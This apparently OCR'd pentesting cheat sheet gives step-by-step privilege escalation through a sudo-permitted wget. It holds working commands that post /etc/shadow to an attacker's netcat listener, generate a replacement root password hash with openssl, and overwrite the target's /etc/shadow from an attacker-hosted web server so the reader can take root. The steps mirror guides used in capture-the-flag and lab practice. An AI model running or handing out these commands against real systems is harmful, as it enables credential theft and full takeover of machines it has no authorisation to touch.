 # Sudo Wget Privilege Escalation#

##### Example:
```markdown 
```

The "sudo wget" command may be vulnerable to privilege escalation (PrivEsc).

Investigation
sudo -l

(root) NOPASSWD: /usr/bin/wget
If we can execute "wget" as root, we may be able to escalate privileges.


Modify /etc/shadow
Get "/etc/shadow" and generate a new hash passwd, then set it to the shadow file, next upload it.
That changes the root password.

1. Get the Content of /etc/shadow
To see the content of /etc/shadow, we can use netcat listener.
So First, start a listener in local machine.
nc -lvnp 4444
In target machine, display the contents of the "/etc/shadow" to the local machine using the following command.
sudo /usr/bin/wget --post-file=/etc/shadow <local-ip> 4444
We should see the content in our local machine via netcat listener.
Copy the content.

2. Create a New Shadow File
We create a new shadow file in local. The shadow file will be stored into the target /etc/shadow later.
vim shadow.txt
In vim editor (or nano, vi, etc.), paste the content of /etc/shadow which we've copied in the previous section.

3. Create a New Root User Password and Add to Shadow File
Generate a new hash password for a new root user in local machine.
 -6: SHA512
openssl passwd -6 -salt 'salt' 'password'
Copy the generated password and paste it at the password of the root user into the "shadow.txt".
As a result, the contents of the "shadow.txt" should look like this:
root:$6$salt$IxDD...DCy.g.:18195:0:99999:7:::
...

4. Transfer the Content of the Shadow File
To put the shadow.txt into the target machine, start web server for hosting this file.
python3 -m http.server 8000
Download this file into the /etc/shadow in remote machine. To do that, we need to run it as root.
sudo /usr/bin/wget http://<local-ip>:8000/shadow.txt -O /etc/shadow 
Finally, you can switch to the root user with the password we've created.
su root
